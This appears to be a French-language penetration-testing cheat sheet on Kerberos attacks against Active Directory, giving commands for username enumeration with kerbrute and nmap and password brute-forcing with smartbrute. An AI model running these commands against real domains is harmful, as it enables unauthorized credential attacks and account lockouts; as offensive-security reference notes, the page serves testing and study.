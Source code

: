 


### *KERBRUTE* 

https://github.com/ropnop/kerbrute

```bash
kerbrute userenum --dc <ip> -d <domain> <userlist>
```

### *NMAP*

```bash
nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC
```


# **PRE-AUTH BRUTEFORCE**

> [!Prérequis]
> La pré-authentification Kerberos doit être désactivée.

### *SMARTBRUTE*

https://github.com/ShutdownRepo/smartbrute

Brute mode (peut verrouiller les comptes)

```bash
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
```


